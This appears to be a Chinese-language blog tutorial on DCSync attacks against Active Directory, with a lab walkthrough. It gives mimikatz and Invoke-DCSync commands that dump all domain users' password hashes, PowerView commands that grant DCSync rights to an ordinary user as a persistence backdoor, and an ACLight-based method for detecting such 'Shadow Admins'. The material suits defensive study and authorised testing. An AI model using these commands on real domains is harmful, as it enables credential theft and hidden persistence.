 # 域渗透-DCsync


## 0x1 概念

在域中，不同的DC之间，每隔15分钟会进行一次域数据的同步。当一个DC（辅助DC）想从其他DC（主DC）获取数据时，辅助DC会向主DC发起一个GetNCChanges请求。请求的数据包括需要同步的数据。如果需要同步的数据比较多，则会重复上述过程。DCSync就是利用的这个原理，通过Directory Replication Service(DRS)服务的GetNCChanges接口向域控发起数据同步请求。

在DCSync功能出现之前，要想获得域用户的哈希，需要登录域控制器，在域控制器上执行代码才能获得域用户的哈希。2015年8月，新版的mimikatz增加了DCSync的功能，该功能可以模仿一个域控DC，从真实的域控中请求数据，如用户的哈希。该功能最大的特点就是可以实现不登录到域控而获取域控上的数据。

## 0x2 利用条件

所需权限：

- 复制目录更改
- 复制目录全部更改
- 在筛选集中复制目录更改(非必要)

默认拥有上述权限的用户如下

```txt
Administrators组内的用户
Domain Admins组内的用户
Enterprise Admins组内的用户
域控制器的计算机账户(Administrator和system)
```

**DCSync 攻击的对象如果是只读域控制器 (RODC)，则会失效，因为 RODC 是不能参与复制同步数据到其他 DC 的**

## 0x3 利用方法

#### 1.使用mimikatz

切换到debug权限

```shell
log
privilege::debug
```

导出域内所有用户的hash：

```shell
lsadump::dcsync /domain:xr.com /all /csv
```

导出域内administrator帐户的hash：

```shell
lsadump::dcsync /domain:xr.com /user:administrator /csv
```

下面开始实验使用Domain Admins内用户zs，登录到域内主机上，使用mimikatz来读取hash

<img src="https://s1.vika.cn/space/2023/08/17/5203bcc5cdf941a2aa8c2842fef53d29" style="zoom:;" />

<img src="https://s1.vika.cn/space/2023/08/17/32ecae7cc96e4a49adaf116c6336e68d" alt="image-20230817144449104" style="zoom:;" />

#### 2.powershell实现

通过Invoke-ReflectivePEinjection调用mimikatz.dll中的dcsync功能

{{< link "https://gist.github.com/monoxgas/9d238accd969550136db" "Invoke-DCSync.ps1" "" true >}}

导出域内所有用户的hash：

```shell
Invoke-DCSync -DumpForest | ft -wrap -autosize
```

<img src="https://s1.vika.cn/space/2023/08/17/ec8199572b8e442d9279a188291409c8" alt="image-20230817151206787" style="zoom:;" />

导出域内administrator帐户的hash：

```shell
Invoke-DCSync -DumpForest -Users @("administrator") | ft -wrap -autosize
```

<img src="https://s1.vika.cn/space/2023/08/17/049f9632d4014e7db1e0beab8205d431" alt="image-20230817151237335" style="zoom:;" />

## 0x4 DCSync在域内维持权限

**利用条件：**

获得以下任一用户的权限：

- Domain Admins组内的用户
- Enterprise Admins组内的用户

**利用原理：**

向域内的一个普通用户添加如下三条ACE(Access Control Entries)：

- DS-Replication-Get-Changes(GUID:1131f6aa-9c07-11d1-f79f-00c04fc2dcd2)
- DS-Replication-Get-Changes-All(GUID:1131f6ad-9c07-11d1-f79f-00c04fc2dcd2)
- DS-Replication-Get-Changes(GUID:89e95b76-444d-4c62-991a-0facbeda640c)

该用户即可获得利用DCSync导出域内所有用户hash的权限

**利用方法：**

{{< link "https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1#L8270" "PowerView.ps1" "" true >}}

添加ACE的命令：

```shell
Add-DomainObjectAcl -TargetIdentity "DC=xr,DC=com" -PrincipalIdentity liu -Rights DCSync -Verbose
```

删除ACE的命令：

```shell
Remove-DomainObjectAcl -TargetIdentity "DC=xr,DC=com" -PrincipalIdentity liu -Rights DCSync -Verbose
```

开始实验，我们在一台域内主机登录liu普通域用户，使用mimikatz导出hash，失败

<img src="https://s1.vika.cn/space/2023/08/17/36a4c0ee63204da0880453706214153a" alt="image-20230817230857468" />

在另一台域内主机登录Domain Admins内用户zs，执行ps1，成功添加

<img src="https://s1.vika.cn/space/2023/08/17/cd8e8efefbcc43f0b954dabdb605a6cc" alt="image-20230817231012951" />

回到liu这台主机，再次导出hash，成功导出数据

<img src="https://s1.vika.cn/space/2023/08/17/6819fc1160904fb58a26449085f974b7" alt="image-20230817231041072" />

## 0x5 检测DCSync后门

具有高权限但不在高权限组的用户被称之为Shadow Admin，例如0x03中的域用户test1，仅通过查询高权限组的成员无法发现域内的Shadow Admin

**检测原理：**

枚举Active Directory中所有用户的ACL，标记出特权帐户

**利用条件：**

{{< link "https://github.com/cyberark/ACLight" "ACLight" "" true >}}

- Powershell v3.0
- 域内普通用户权限

<img src="https://s1.vika.cn/space/2023/08/17/78e80b418811489f92fda29885b4a118" alt="image-20230817232541260" style="zoom:;" />

要求Powershell v3.0，增加一台win10来执行Execute-ACLight2.bat,登录域内普通用户ls

<img src="https://s1.vika.cn/space/2023/08/17/b29b783c8641417fb1d0a6c75bf9c82d" alt="image-20230817234713769" style="zoom:;" />

生成result文件夹查看结果，排查到liu用户为Shadow Admin

<img src="https://s1.vika.cn/space/2023/08/17/fc78e9bc6ea0418694510649d32eef7b" alt="image-20230817234857099" />


---

> 作者: [xunruo](https://xunruo.top)  
> URL: https://xunruo.top/post/2d099117/  

